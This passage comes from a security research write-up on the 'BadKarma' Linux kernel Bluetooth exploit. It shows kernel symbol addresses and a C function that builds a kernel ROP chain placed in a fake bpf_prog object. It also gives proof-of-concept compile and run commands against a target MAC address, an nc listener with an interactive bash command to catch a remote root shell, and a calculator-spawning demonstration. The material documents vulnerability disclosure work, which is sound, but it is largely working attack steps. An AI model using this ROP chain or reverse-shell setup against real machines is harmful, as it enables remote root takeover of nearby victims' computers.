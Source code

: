 Subtracting the slide from the two addresses from before yields:

```c
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```

Finally, we can find gadgets for `pop rax ; ret`, `pop rdi ; ret` and `jmp rax` with ROPgadget and then we can construct the kernel ROP chain according to this example:

```c
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```

This ROP chain should be placed at offset 0x40 within the fake `struct bpf_prog` object, and `cmd_addr` should point to the bash command planted in kernel memory. With everything at the right place, we can finally retrieve a root shell from the victim.

## Proof-Of-Concept

Compile it using:

```bash
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```bash
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```bash
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```bash
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

Occasionally, the victim may print `Bluetooth: Trailing bytes: 6 in sframe` in dmesg. This happens if the kmalloc-128 slab spray has not been successful. In that case, we need to repeat the exploit. As an anecdote regarding the name "BadKarma", the _BadKarma_ exploit occasionally managed to bail out early in `sk_filter()`, e.g. when the field `sk_filter` is 0, and proceed with executing the A2MP receive handler and sending back a A2MP response packet. Hilariously, when that happened, the victim's machine did not panic – instead, the attacker's machine would panic; because, as we learned earlier, the ERTM implementation used by the A2MP protocol would by design trigger a type confusion.
